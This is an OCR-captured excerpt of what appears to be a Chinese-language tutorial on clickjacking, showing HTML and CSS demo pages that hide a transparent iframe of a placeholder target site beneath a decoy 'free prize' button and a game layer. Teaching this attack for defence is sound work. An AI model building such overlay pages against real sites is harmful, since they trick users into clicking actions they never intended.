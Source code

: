 ```html
        border: none;
        cursor: pointer;
      }
    </style>
  </head>
  <body>
    <div class="wrapper">
      <!-- 目标网站的iframe -->
      <iframe class="target-iframe" src="https://target-website.com"></iframe>
      <!-- 诱饵内容 -->
      <div class="decoy-content">
        <h2>赢取免费奖品！</h2>
        <button class="decoy-button">点击领取</button>
      </div>
    </div>
  </body>
  </html>

````

### 2.2. 更复杂的攻击示例

```html

  <!DOCTYPE html>
  <html>
  <head>
    <title>Advanced Clickjacking Demo</title>
    <style>
      .game-container {
        position: relative;
        width: 800px;
        height: 600px;
        margin: 0 auto;
        border: 1px solid `#ccc;`
        overflow: hidden;
      }
      
      .game-layer {
        position: absolute;
        top: 0;
        left: 0;
        width: 100%;
        height: 100%;
        z-index: 2;
      }
      
      .target-frame {
        position: absolute;
        width: 1200px;
        height: 800px;
        top: -100px;
        left: -200px;
        opacity: 0;
        z-index: 1;
        transform: scale(0.8);
        pointer-events: auto;
      }
      
      .game-element {
        position: absolute;
        cursor: pointer;
      }
```